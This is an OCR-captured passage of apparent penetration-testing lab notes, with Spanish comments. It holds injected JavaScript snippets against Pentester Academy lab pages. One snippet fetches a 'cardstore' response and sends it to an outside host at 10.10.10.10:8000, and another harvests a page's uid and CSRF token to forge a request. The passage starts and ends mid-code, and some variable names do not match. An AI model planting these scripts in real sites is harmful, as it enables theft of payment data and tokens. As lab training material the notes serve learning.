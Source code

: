 ```html
	req1.send("user=john");
</script>
```

```html
<script>
	let req1 = new XMLHttpRequest();

	req1.onreadystatechange = ()=>{
		//si hay respuesta exitosa
		if(request.readyState == 4 && req.status == 200)
		{
			let req2 = new XMLHttpRequest();
			req2.open("GET","http://10.10.10.10:8000/?card="+req1.responseText,true);
			req2.send();
		}
	};

	req1.open("POST","http://pentesteracademylab.appspot.com/lab/webapp/jfp/15/cardstore",true);
	req1.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
	req1.send("user=john");
</script>
```

### CSRF TOKEN STEALING

```html
<script>
        let request = new XMLHttpRequest();    
        request.onreadystatechange = function() {
            if (request.readyState == 4 && request.status == 200) {
                document.getElementById("result").innerHTML = request.responseText;
            }
        };

        //obtener el uid y token necesarios para la peticion
        let uid = document.getElementsByTagName("p")[0].innerHTML;
        let csrf_token = document.getElementsByTagName("p")[1].innerHTML;

        uid = uid.split(":")[1];
        csrf_token = csrf_token.split(":")[1];

        request.open("GET", "/lab/webapp/jfp/17/email?uid=" + uid + "&csrf_token=" + csrf_token, true);
        request.send();
</script>
```


### HTML PARSING OF XMLHttpRequest RESPONSE

```html
<script>
    var req = new XMLHttpRequest();
    req.onreadystatechange=function()
     {
      if (req.readyState==4 && req.status==200)
        {
         var html = req.responseXML;
         var address = html.getElementById("address").innerHTML;
        }
       document.getElementById("result").innerHTML = address;
     };
    req.open("GET", "/lab/webapp/jfp/18/address", true);
    //especifico que la respuesta sea HTML
```